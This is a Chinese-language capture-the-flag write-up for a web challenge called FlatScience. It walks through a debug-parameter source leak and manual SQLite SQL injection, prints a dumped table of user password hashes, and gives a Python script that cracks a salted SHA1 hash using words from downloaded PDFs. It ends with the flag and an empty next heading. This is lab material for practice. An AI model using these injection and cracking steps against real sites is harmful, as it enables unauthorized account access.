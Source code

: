 ## DiffucultyFour

### FlatScience

1. 刊载了各种科学论文，点击页面上的url，跳转到不同的论文
2. 访问robots.txt，暴露了两个文件，login.php，admin.php，都是登陆页面，查看页面源代码，再login.php处发现了debug参数，设置debug=1，得到了页面源码，sqllite3数据库，且有明显的sql注入，查询得到的内容返回给cookie，并且立刻重定向，这样sqlmap就不行了，手工查询，sqllite下也有一个与mysql的information_schema的数据库，是SQLite_master，逐步查询，得到了当前数据库下的表users：

   ```
   id name password hint
   1 admin 3fab54a50e770d830c0416df817567662a9dc85c +my+fav+word+in+my+fav+paper?!
   2 fritze 54eae8935c90f467427f05e4ece82cf569f89507 +my+love+is…?
   3 hansi 34b0bb7c304949f9ff2fc101eef0f048be10d3bd +the+password+is+pa
   ```
3. 密码的提示，一个最喜爱的单词拼接字符串"Salz!"后sha1加密，加密后值为3fab54a50e770d830c0416df817567662a9dc85c，这个单词就是密码
4. 将所有论文下载下来 `wget http://61.147.171.105:53007/ -r -np -nd -A .pdf `，提取出所有的单词，逐个尝试，脚本如下：

   ```python
   from cStringIO import StringIO
   from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
   from pdfminer.converter import TextConverter
   from pdfminer.layout import LAParams
   from pdfminer.pdfpage import PDFPage
   import sys
   import string
   import os
   import hashlib

   def get_pdf():
   	return [i for i in os.listdir("./") if i.endswith("pdf")]


   def convert_pdf_2_text(path):
       rsrcmgr = PDFResourceManager()
       retstr = StringIO()
       device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
       interpreter = PDFPageInterpreter(rsrcmgr, device)
       with open(path, 'rb') as fp:
           for page in PDFPage.get_pages(fp, set()):
               interpreter.process_page(page)
           text = retstr.getvalue()
       device.close()
       retstr.close()
       return text


   def find_password():
   	pdf_path = get_pdf()
   	for i in pdf_path:
   		print "Searching word in " + i
   		pdf_text = convert_pdf_2_text(i).split(" ")
   		for word in pdf_text:
   			sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
   			if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
   				print "Find the password :" + word
   				exit()

   if __name__ == "__main__":
   	find_password()
   ```

   单词为 `ThinJerboa`
5. 以admin登录

flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}

### wife_wife

1.
